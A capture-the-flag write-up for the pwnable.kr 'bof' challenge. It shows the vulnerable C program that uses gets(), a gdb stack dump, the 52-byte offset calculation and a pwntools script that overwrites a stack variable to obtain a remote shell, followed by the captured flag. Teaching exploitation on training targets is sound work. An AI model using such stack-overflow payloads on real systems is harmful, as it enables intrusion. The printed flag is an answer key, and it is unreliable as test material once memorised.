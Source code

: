 # bof

## Description

bof - 5 pt

> Nana told me that buffer overflow is one of the most common software vulnerability. Is that true? <br><br>
> Download : http://pwnable.kr/bin/bof
> Download : http://pwnable.kr/bin/bof.c <br><br>
> Running at : nc pwnable.kr 9000

## Solution

### Background

#### Buffer Overflow

A buffer overflow occurs when a program attempts to write more data to a buffer than it can hold. This can cause the program to crash, or it can be used to overwrite data in the program's memory.


### Exploit

This time, we are given two files: `bof` - the binary file, and `bof.c` - the source code. Let's take a look at the source code:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

The program calls ```gets``` to read input from the user. ```gets``` is a dangerous function because it does not check the length of the input, so it can cause a buffer overflow. The program also checks if the input is equal to `0xcafebabe`, and if it is, it executes the command `/bin/sh`. This means that we need to overwrite the value of `key` with `0xcafebabe` in order to get a shell.

Using ```gdb``` to debug the program, and giving `AAAA` as input, we can see the stack:

```
(gdb) x/100x $esp

0xffffd0f0:	0xffffd10c	0x00000020	0x00000000	0xffffd2e4
0xffffd100:	0x00000000	0x00000000	0x01000000	0x41414141
0xffffd110:	0xf7fc4500	0x00000000	0xf7d904be	0xf7f9e054
0xffffd120:	0xf7fbe4a0	0xf7fd6f10	0xf7d904be	0x75f7b900
0xffffd130:	0xffffd170	0xf7fbe66c	0xffffd158	0x5655569f
0xffffd140:	0xdeadbeef	0x00000000	0xf7f9e000	0xf7e9694b
```

The adress of `key` is `0xffffd140`, and the adress of `overflowme` is `0xffffd10c`. We can see that the distance between them is `52` bytes. This means that we need to write `52` bytes of junk data, followed by `0xcafebabe` in order to overwrite the value of `key`.

```python
from pwn import *

con = remote('pwnable.kr', 9000)

payload = b'\x61' * 52 + p32(0xcafebabe)

con.sendline(payload)

con.interactive()
```

Running the script, we get a shell:

```
$ python3 exploit.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ cat flag
daddy, I just pwned a buFFer :)
```